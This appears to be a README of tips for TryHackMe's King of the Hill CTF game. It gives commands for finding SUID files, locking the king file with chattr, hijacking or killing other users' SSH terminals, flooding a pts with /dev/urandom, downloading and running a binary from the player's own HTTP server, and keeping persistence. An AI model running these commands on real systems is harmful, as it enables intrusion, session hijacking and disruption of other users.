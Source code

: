 # Koth TryHackMe - Tricks

## Examples

## looking for root permissions

* you can use find to search for permissions with root

```
find / -type f \( -perm -4000 -o -perm -2000 \) -print
```


## using chattr

* you can use this to make the file immutable and therefore keep your name in this file.

```
chattr +i /root/king.txt
```

## fixing the vulnerability in /etc/sudoers, for example

```
# User privilege specification
root ALL=(ALL=ALL) ALL
teste ALL=(root) SETENV:NOPASSWD: /usr/bin/git *, /usr/bin/chattr
test1 ALL=(root) NOPASSWD: /bin/su test1, /usr/bin/chattr
```

* here you can see that user teste and teste1 has root permission on the git and su binary, to fix this just remove everything from the teste and teste1 there

```
root ALL=(ALL=ALL) ALL
```

* and it will be like that, so there will be no way to climb privilege by su and git

## using find

* you can use find to look for flags

```
find / -name flag.txt 2>/dev/null
find / -name user.txt 2>/dev/null
find / -name .flag 2>/dev/null
find / -name flag 2>/dev/null
find / -name root.txt 2>/dev/null
```
## full tty shell

* tweaking your shell, if you get a reverse shell and you ctrl + c and your shell closes/stops, this will help you and you can edit, give ctrl + c at will

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
export TERM=xterm
Ctrl + z
stty raw -echo;fg
```

## breaking into the shell of users logged into SSH (NOT RECOMMENDED,DO THIS ONLY IN PRIVATE ROOMS WITH YOUR FRIENDS FOR FUN)

* you can use the following command to break into the shell of other logged in users

```
script -f /dev/pts/1
```

* for you to know which pts (pseudo slave terminal) the user is connected, just use the following command in the terminal: w , then just see which pts the user is and use the command

## how to see who is logged into the system

* you can use the following commands to see who is logged into ssh/system

```
w
who
ps aux | grep pts
```

## killing session of a user logged into ssh/system

* to kill someone's session just use the following command

```
pkill -9 -t pts/1
```

* as explained in some examples above, just put the pts of the user you want to remove from the machine

## changing ssh user password

* to change a user's password just use the following command

```
passwd [UserName]
```

* you can change ssh keys

# Changing the ssh port (NOT RECOMMENDED, IF YOU DO THIS DO IT WITH YOUR FRIENDS IN PRIVATE ROOMS BECAUSE IT MAY RESULT IN PUNISHMENT, IT'S AGAINST THE RULES!)

## Example

> nano /etc/ssh/sshd_config

```
Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
```
* by default the SSH port is port 22, but you can change this port for example

```
Include /etc/ssh/sshd_config.d/*.conf

Port 55999
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
```

> service sshd restart

* and ready after restarting the SSH service the SSH port will be at 55999

# Nyancat

## Preparing the Nyancat

> git clone https://github.com/klange/nyancat

> cd nyancat/src

> make

## Sending Nyancat to machine

> python -m SimpleHTTPServer 80 # on your local machine

> wget http://yourip/nyancat # on the KOTH machine

> chmod +x nyancat

> ./nyancat > /dev/pts/# < here where is the # you will place the enemy PTS where I explained it here in this koth tryhackme tricks.

## Breaking pts by sending spam from urandom

> cat /dev/urandom > /dev/pts/#


## defending box

* Look for common ways to fix a box, for example: changing ssh keys, changing passwords, look for running processes or even in cronjobs

* Always set your persistence so that even if someone kicks you out, you have multiple ways to get back.

* So start fixing things in the box. Fix security issues, not legitimate services. For example, disabling ssh is NOT allowed unless it is an intentionally broken ssh installation.


## Some useful links

[for privilege escalation](https://gtfobins.github.io/).

[this will help you with reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[this will help you with ciphers, hashes, etc.](https://gchq.github.io/CyberChef/)

## Note 

Don't do anything wrong on the koth machines, please respect all the rules for everyone to have a great experience and a great game

https://docs.tryhackme.com/docs/koth/king-of-the-hill